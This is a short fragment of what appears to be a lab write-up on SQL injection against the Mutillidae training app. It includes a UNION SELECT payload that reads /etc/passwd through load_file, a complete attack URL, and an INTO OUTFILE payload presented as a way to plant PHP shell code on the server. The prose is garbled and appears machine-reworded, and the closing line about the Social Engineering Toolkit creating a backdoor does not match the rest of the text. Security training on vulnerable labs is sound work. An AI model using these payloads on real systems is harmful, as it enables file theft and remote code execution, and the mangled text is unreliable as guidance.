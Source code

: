 Ex: (union select null,load_file(‘/etc/passwd’),null,null,null).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=ganesh%27union%20select%20null,load_file(%27/etc/passwd%27),null,null,null%23&password=&user-info-php-submit-button=View+Account+Details



the “INTO_OUTFILE()” operator for all that they offer and attempt to root the objective server by transferring a shell-code through SQL infusion. we will write a “Hello World!” sentence and output it in the “/tmp/” directory as a “hello.txt” file. This “Hello World!” sentence can be substituted with any PHP shell-code that you want to execute in the target server.
Ex: (union select null,’Hello World!’,null,null,null into outfile ‘/tmp/hello.txt’).





## RESULT:
The Social Engineering Toolkit (SET) is used to create backdoor is  examined successfully
